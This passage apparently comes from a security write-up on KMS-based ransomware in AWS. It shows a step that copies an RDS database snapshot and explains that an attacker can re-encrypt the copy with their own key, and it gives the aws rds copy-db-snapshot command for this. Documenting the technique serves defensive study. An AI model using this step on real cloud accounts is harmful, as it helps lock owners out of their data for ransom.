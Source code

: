 ![image9](/img/kms-ransomware/create-db-snapshot.png){: width="720" .mx-auto .d-block }

Copy the DB Snapshot. In this step it is possible for an attacker to change the newly created snapshot encryption key to their own .   
```
aws rds copy-db-snapshot --source-db-snapshot-identifier copy-pasturedb --target-db-snapshot-identifier ransom-pasturedb --kms-key-id <key-id>
```

![image10](/img/kms-ransomware/copy-db-snapshot.png){: width="720" .mx-auto .d-block }
